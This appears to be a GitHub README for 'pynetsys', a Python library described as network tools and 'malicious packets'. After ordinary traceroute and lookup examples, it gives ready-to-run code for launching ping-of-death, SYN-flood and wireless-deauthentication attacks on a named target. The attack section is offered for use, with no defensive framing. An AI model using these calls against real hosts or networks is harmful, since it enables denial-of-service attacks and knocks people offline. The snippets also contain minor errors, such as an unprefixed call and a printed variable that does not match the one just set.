 # PYNETSYS

pynetsys is a collection of tools and malicious packets..

Developed by Andrea Vaccaro from ANDRVV (c) 2022

# Installing

Linux, MacOS = ```pip3 install pynetsys --user```

Windows = ```pip install pynetsys --user```

# Tools

```python
import pynetsys

trace = pynetsys.tool.traceroute("python.org") --> list
print(trace)

arping = pynetsys.tool.arp() --> dict
print(arping)

hostinfo = pynetsys.tool.hostlookup("python.org") --> dict
print(hostinfo)

networks = pynetsys.tool.networkFinder() --> dict
print(hostinfo)

```

# Create malicious packet and send

```python
import pynetsys

PACKET, ID = pynetsys.packet.packet(target = "example.org", attack = pynetsys.packet.Packets.DEATH_PING)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

PACKET, ID = packet(target = "example.org", attack = pynetsys.packet.Packets.SYN_FLOOD)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

PACKET, ID = pynetsys.packet.packet(target = "aa:bb:cc:dd:ee:ff", attack = pynetsys.packet.Packets.WIRELESS_DEAUTH)
pynetsys.packet.start(PACKET, ID, _verbose = 0)

```
